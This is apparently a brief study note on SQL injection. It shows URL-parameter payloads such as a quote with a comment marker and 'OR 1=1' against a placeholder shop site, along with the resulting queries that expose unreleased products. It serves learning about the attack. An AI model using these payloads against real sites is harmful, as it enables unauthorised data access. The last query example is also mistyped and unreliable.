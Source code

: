 # SQL Injection

* `'`. `OR 1=1`, `OR 1=2`
* `WHERE` and `SELECT` are the most common. 

```
https://example.com/products?category=Gifts

SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
Note: `released = 1` is to show only the released products. `released = 0` is to show all products including unleased products. 

This code include a comment indicator `--`. It comments out anything after. As a result, all products will be displayed. 
```
https://insecure-website.com/products?category=Gifts'--

SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```
This also returns all products.
```
https://insecure-website.com/products?category=Gifts'+OR+1=1--

SELECT * FROM products WHERE category = 'Gifts' OR 1=1` AND released = 1
```